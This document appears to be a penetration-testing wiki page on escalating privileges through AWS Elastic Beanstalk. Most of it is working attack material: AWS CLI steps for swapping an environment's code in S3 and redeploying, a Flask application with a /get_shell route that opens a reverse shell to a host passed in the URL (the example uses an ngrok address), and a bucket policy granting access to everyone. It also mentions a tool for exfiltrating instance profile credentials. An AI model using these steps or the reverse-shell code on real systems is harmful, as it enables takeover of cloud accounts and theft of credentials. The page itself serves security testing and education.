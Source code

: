 # AWS - Elastic Beanstalk Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Elastic Beanstalk

More **info about Elastic Beanstalk** in:

{{#ref}}
../aws-services/aws-elastic-beanstalk-enum.md
{{#endref}}

> [!WARNING]
> In order to perform sensitive actions in Beanstalk you will need to have a **lot of sensitive permissions in a lot of different services**. You can check for example the permissions given to **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**

### `elasticbeanstalk:RebuildEnvironment`, S3 write permissions & many others

With **write permissions over the S3 bucket** containing the **code** of the environment and permissions to **rebuild** the application (it's needed `elasticbeanstalk:RebuildEnvironment` and a few more related to `S3` , `EC2` and `Cloudformation`), you can **modify** the **code**, **rebuild** the app and the next time you access the app it will **execute your new code**, allowing the attacker to compromise the application and the IAM role credentials of it.

```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, and more...

The mentioned plus several **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** and **`elasticloadbalancing`** permissions are the necessary to create a raw Elastic Beanstalk scenario from scratch.

- Create an AWS Elastic Beanstalk application:

```bash
aws elasticbeanstalk create-application --application-name MyApp
```

- Create an AWS Elastic Beanstalk environment ([**supported platforms**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```

If an environment is already created and you **don't want to create a new one**, you could just **update** the existent one.

- Package your application code and dependencies into a ZIP file:

```python
zip -r MyApp.zip .
```

- Upload the ZIP file to an S3 bucket:

```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```

- Create an AWS Elastic Beanstalk application version:

```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```

- Deploy the application version to your AWS Elastic Beanstalk environment:

```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

First of all you need to create a **legit Beanstalk environment** with the **code** you would like to run in the **victim** following the **previous steps**. Potentially a simple **zip** containing these **2 files**:

{{#tabs }}
{{#tab name="application.py" }}

```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
        return jsonify('404')

@application.route("/")
def index():
        return jsonify('Welcome!')


@application.route("/get_shell")
def search():
        host=request.args.get('host')
        port=request.args.get('port')
        if host and port:
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect((host,int(port)))
            os.dup2(s.fileno(),0)
            os.dup2(s.fileno(),1)
            os.dup2(s.fileno(),2)
            p=subprocess.call(["/bin/sh","-i"])
        return jsonify('done')

if __name__=="__main__":
    application.run()
```

{{#endtab }}

{{#tab name="requirements.txt" }}

```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```

{{#endtab }}
{{#endtabs }}

Once you have **your own Beanstalk env running** your rev shell, it's time to **migrate** it to the **victims** env. To so so you need to **update the Bucket Policy** of your beanstalk S3 bucket so the **victim can access it** (Note that this will **open** the Bucket to **EVERYONE**):

```json
{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "s3:ListBucket",
        "s3:ListBucketVersions",
        "s3:GetObject",
        "s3:GetObjectVersion",
        "s3:*"
      ],
      "Resource": [
        "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
        "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
      ]
    },
    {
      "Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
      "Effect": "Deny",
      "Principal": {
        "AWS": "*"
      },
      "Action": "s3:DeleteBucket",
      "Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
    }
  ]
}
```

```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```

{{#include ../../../banners/hacktricks-training.md}}



